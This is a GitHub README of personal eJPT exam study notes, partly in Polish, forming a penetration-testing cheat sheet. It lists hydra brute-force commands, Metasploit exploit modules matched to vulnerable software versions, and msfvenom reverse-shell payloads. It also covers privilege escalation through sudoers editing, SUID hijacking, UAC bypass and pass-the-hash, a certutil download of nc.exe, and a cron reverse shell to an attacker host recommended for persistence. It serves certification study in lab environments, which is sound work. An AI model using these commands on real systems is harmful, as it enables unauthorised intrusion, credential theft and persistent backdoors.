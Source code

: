 # eJPT-Study-Notes
My sheet sheet, which I used during my eJPT exam. I've got 91% :)

# The cheat sheet
PIVOTING: 
jak robisz autoroute to daj na adres ip maszyny, do której się chcesz dostać, ewentualnie na ip widocznego na interfejsie pierwszej maszyny


Lists:

a)users:

/usr/share/metasploit-framework/data/wordlists/common_users.txt

/data/wordlists/unix_users.txt

/usr/share/metasploit-framework/data/wordlists/namelist.txt

/usr/share/wordlists/metasploit/unix_users.txt

root

vagrant

search smtp_enum # pobranie userów po SMTP


b)passwords:

/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

/usr/share/wordlists/metasploit/unix_passwords.txt

/usr/share/metasploit-framework/data/wordlists/common_passwords.txt

/usr/share/wordlists/rockyou.txt.gz


c)for cracking:

auxiliary/scanner/http/http_login

http/dir_scanner

auxiliary/scanner/winrm/winrm_login


d)files, dirs:

/usr/share/metasploit-framework/data/wordlists/directory.txt

hydra fast commands:

hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt ip ftp

hydra -l administrator -P /usr/share/wordlists/metasploit/unix_users.txt ip ssh

hydra -l administrator -P /usr/share/wordlists/metasploit/unix_passwords.txt demo.ine.local smb



vulnerabilities:

* jak nie mas pomysłu to są 3 opcje: wpisujesz wersje w gogle i słowa exploit lub cve | searchsploit wersja | moduł metasplota suggester czy jakoś tak
  
* jak masz exploita na daną wersje, ale nie działa to niekoniecznie robisz coś źle, być może został dany exploit załatany
  
linux - vsftpd v 2.3.4  -  exploit/unix/ftp/vsftpd_234_backdoor

linux - proftpd 1.3.3c  -  proftpd_133c_backdoor

linux - Haraka SMTP v2.8.9 i 2.8.8  -  exploit/linux/smtp/haraka

linux - libssh v0.6.0-0.8.0 i 0.8.3  -  auxiliary/scanner/ssh/libssh_auth_bypass

linux - Samba v3.5.0 / 3.0.20 (ogólnie smbd 3.5.0 to 4.4.14, 4.5.10, and 4.6.4)  -  exploit/……/is_known_pipename

linux - samba 3.0.20  -  exploit/multi/samba/usermap_script

windows - Apache Tomcat v8.5.19  -  exploit/multi/http/tomcat_jsp_upload_bypass

windows - rejetto HttpFileServer 2.3 -  exploit/windows/http/rejetto_hfs_exec

xoda web service  -  exploit/unix/webapp/xoda_file_upload

linux priv esc  -  chkrootkit  0.49  -  exploit/unix/local/chkrootkit  (whereis chkrootkit)

windows  -  badblue 2.7  -  exploit/windows/http/badblue_passthru

Windows 2008 and 2008R2 - search eternalblue  -  ms17_010_eterenalblue (auxiliary/scanner/smb/smb_ms17_010 detection)

PHP 5.4.2 versions below - CGI plik - shellshock  -  exploit/multi/http/php_cgi_arg_injection | apache_mod_chi_bash_env_exec 

/phpinfo.php - 5.2.4ubuntu5.10 lub CGI | exploit/multi/http/php_cgi_arg_injection

WebDAV | davtest -url http://10.0.17.27/webdav | davtest -auth bob:password_123321 -url http://10.0.17.27/webdav | exploit/windows/iis/iis_webdav_upload_asp

ProcessMaker HTTP -  exploit/multi/http/process_maker_exec

5985 port | WinRM - winrm_script_exec | auxiliary/scanner/winrm/winrm_login



webshells, reverse shells:
/usr/share/webshells/php/php-backdoor.php
msfvenom -p windows/shell/reverse_tcp LHOST=ip LPORT=1234 -f asp > shell.aspx
/usr/share/webshells/php/php-reverse-shell.php
/usr/share/webshells/asp/webshell.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.1.3 LPORT=4444 -f exe > 'backdoor.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ip LPORT=1234 -f exe > payload.exe


usefull:
post/multi/manage/shell_to_meterpreter
TCP port 5985 5986 (HTTPS) wsman (słowo klucz) - Windows Remote   Management Protocol - auxiliary/scanner/winrm/winrm_login
mimikatz = KIWI | meterpreter>load kiwi
testowanie dziwnych portów (np. takich ze znakiem zapytania?) - nc -nv ip <port>
Microsoft IIS = asp lub aspx
Apache i Linux = php
exploit/windows/misc/hta_server
https://github.com/411Hall/JAWS - windows wnumeration
https://github.com/rebootuser/LinEnum - linux enumeration
auxiliary/analyze/crack_windows
post/linux/gather/hashdump
auxiliary/analyze/crack_linux
auxiliary/scanner/rdp/rdp_scanner - RDP może być na innym niż domyślnym porcie
nmap --script http-shellshock --script-args “http-shellshock.uri=/gettime.cgi” 192.242.220.3 (JAK JEST CGI FILE)
exploit/windows/smb/psexec
post/linux/gather/phpmyadmin_credsteal # może znaleźć hasło do roota
https://github.com/hfiref0x/UACME


interesting paths:
/wamp/www/wordpress/wp-config.php
C:\wamp\alias\phpmyadmin.conf
/usr/share/windows-resources/mimikatz/x64/mimikatz.exe


privilege esc:

linux - ps aux - szukasz procesu chkrootkit

linux - exploit/unix/local/chkrootkit

linux - find / -not -type l -perm -o+w | it will find world writable files

linux - etc/shadow jak można edytować to możemy usera dodać

linux -  find / -user root -perm -4000 -exec ls -ldb {} \ | poszukuje SEUID programs

linux - sudo -l | sprawdź do czego masz uprawnienia sudo bo czasem jak masz np. do nano albo cat to możesz wyświetlić /etc/shadow, a znowu jak masz do vi to możesz z tego poziomu zrobić basha, tak samo z man: otwierasz sudo man, potem !/bin/bash

linux -  grep -nri “/tmp/message” /usr | poszukiwanie plików z daną zawartością, w tym przypadku zapisujących do wskazanej ścieżki

linux - printf '#! /bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh

linux - plik welcome s ustawionym SUID, "strings welcome" wskazuje wykonanie pliku greetings z poziomu pliku welcome, rm greetings, cp /bin/bash greetings, ./welcome

getsystem

linux - zawsze warto sprawdzić pliki w katalogu domowym oraz w /tmp

linux - generalnie jak jest crontab i privilege esc z tym związane, to szukasz pliku (polecenie stat), który będzie edyowany co minute, jak znajdziesz plik to szukasz pliku, który w swoim kodzie ma edycję pliku (polecenie grep)

windows - exploit/windows/local/bypassuac_injection

windows - Source: https://github.com/itm4n/PrivescCheck  | PowerShell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck "

windows - runas.exe /user:administrator cmd

windows - psexec.py Administrator@target_ip

windows - exploit/windows/smb/psexec

windows - /root/Desktop/tools/UACME/Akagi64.exe | Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe

windows - Source: https://github.com/PowerShellMafia/PowerSploit

windows - load incognito | list_tokens -u | impersonate_token "ATTACKDEFENSE\Administrator"

windows - crackmapexec smb ip -u Administrator -H "NTLM hash" # zalogowanie się na admina używając hasza NTLM




transfering files:

certutil -urlcache -f http://10.10.3.2/nc.exe nc.exe

python -m SimpleHTTPServer 80

python3 -m http.server 80 

nc.exe -nvlp 1234 > test.txt

nc -nv ip port < test.txt

wget http://ip/php-backdoor.php



persistence:

windows - getgui

*windows - exploit/windows/local/persistence_service

linux - echo "* * * * * cd /home/student/ && python -m SimpleHTTPServer" > cron; crontab -i cron

linux - scp student@192.37.104.3:~/.ssh/id_rsa , a potem ssh -i id_rsa student@192.37.104.3

*linux - echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/ip_kali/1234 0>&1'" > cron (TO JEST NAJLEPSZE)


fast login:

scanner/ssh/ssh_login

mysql -h ip -u root # jak root jest bez hasła

